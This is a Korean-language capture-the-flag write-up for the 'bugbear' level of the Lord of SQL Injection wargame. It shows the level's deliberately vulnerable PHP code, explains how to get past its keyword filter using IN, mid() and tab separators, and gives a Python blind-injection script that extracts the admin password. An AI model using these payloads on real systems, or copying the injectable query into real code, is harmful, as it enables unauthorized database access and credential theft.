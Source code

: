 ## Lord of SQL Injection No. 13- Bugbear
## 문제 출제 의도
like함수, substr함수, substring함수 없이 SQL문을 조작 가능 한지 확인한다.
## 소스 코드 분석
+ 소스 코드  
bugbear소스 코드는 다음과 같다.   
    ~~~ 
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
    if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
    if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
    $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - Get 방식으로 받은 no값에 prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 pw값에 (single quote)가 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - Get 방식으로 받은 no값에 (single quote),substr,ascii,=(대입연산자),or,and중 하나라도 있다면 "HeHe"가 출력되고 문제 풀이에 실패한다.
    - SQL문을 통해 받은 id 값이 0이 아니라면 "Hello Id"가 출력된다.
    - 문제 풀이에 성공하는 조건은 한 레코드의 id 값이 'admin'이고 pw값이 입력한 pw 값과 같을 떄 즉 id가 'admin'인 회원의 pw값을 알아내야 한다.
## 문제 해결
+ IN
    - 대입 연산자를 대체하여 그 자리에 동일하게 IN을 삽입하고 대입할 문자열을()소괄호로 묶어주어 사용하면 '=' 을 사용하지 않고 SQL문을 조작 가능하다.

+ 코드
    - 따라서 다음과 같은 코드를 작성하면 pw값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?no="
            data = '1||id%09IN%09("admin")%26%26mid(pw,1,{})%09IN%09("{}")%23'.format(str(i), key + chr(j))
            print(data)
            # no=1||id%09IN%09("admin")%26%26MID(pw,1,1)%09IN%09("7")%09--%09-
            # data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=lu2qch32sh6s8s57djgjra3hs3")
            res = urllib.request.urlopen(re) 
            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 이를 실행하면 pw=735c2773가 출력된다
    - 이를 URL뒤에 GET방식으로 입력하면 문제가 해결된다.